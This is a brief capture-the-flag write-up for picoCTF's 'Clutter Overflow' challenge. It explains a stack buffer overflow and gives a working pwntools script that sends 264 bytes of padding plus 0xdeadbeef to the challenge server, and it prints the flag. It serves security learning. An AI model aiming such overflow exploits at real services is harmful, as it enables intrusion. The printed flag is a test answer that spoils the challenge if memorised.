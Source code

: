 # 1. Cluttter Overflow

> Put in the challenge's description here

## Solution:

After downloading and examining both the Assembly and C source code files, I found that the Stack Pointer is first moved down by 0x110 bytes (272 in decimal). Then, input is taken 8 bytes above this pointer. This means we need a buffer of 272 - 8 = 264 bytes to reach the memory address where the code variable is stored.
```python
#!/usr/bin/env python3
from pwn import *

s = remote('mars.picoctf.net', 31890)

pad = b'a' * 264
val = p32(0xdeadbeef)
p = pad + val

log.info("waiting...")
s.recvuntil(b'What do you see?')

log.info('sending...')
s.sendline(p)

log.success("done; interactive mode:")
s.interactive()
```
running this in the terminal got the flag

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:
- learned to intrepret the code and make changes 

## Resources:

- https://docs.pwntools.com/en/stable/install.html
- 

